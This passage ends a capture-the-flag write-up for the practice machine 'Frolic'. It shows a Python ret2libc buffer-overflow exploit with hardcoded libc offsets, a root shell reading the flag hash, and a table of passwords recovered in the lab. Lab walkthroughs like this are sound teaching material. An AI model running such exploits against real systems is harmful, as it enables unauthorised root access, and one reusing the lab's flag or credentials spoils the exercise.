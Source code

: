 The Exploit Code:
```python
import struct
import os

libc = 0xb7e19000
sys_offset = 0x0003ada0
sh_offset = 0x0015ba0b
exit_offset = 0x0002e9d0

sys_addr = libc + sys_offset
sh_addr = libc + sh_offset
exit_addr = libc + exit_offset

payload = "A"*52

payload += struct.pack("<I" , sys_addr)
payload += struct.pack("<I" , exit_addr)
payload += struct.pack("<I" , sh_addr)

print(payload)
```

We could now run this exploit and get a root shell on the box.
![[Pasted image 20210709235946.png]]

## Getting the root Flag
```python
root@frolic:/dev/shm# cd /root/
root@frolic:/root# ls -l
total 4
-rw------- 1 root root 33 Sep 25  2018 root.txt
root@frolic:/root# cat root.txt 
85d3fdf03f969892538ba9a731826222
```
# Credentials
|Username|Password|Found from|
|--|--|--|
|admin|imnothuman|backup web directory|
| |idkwhatispass|from decoding ciphers on /admin|
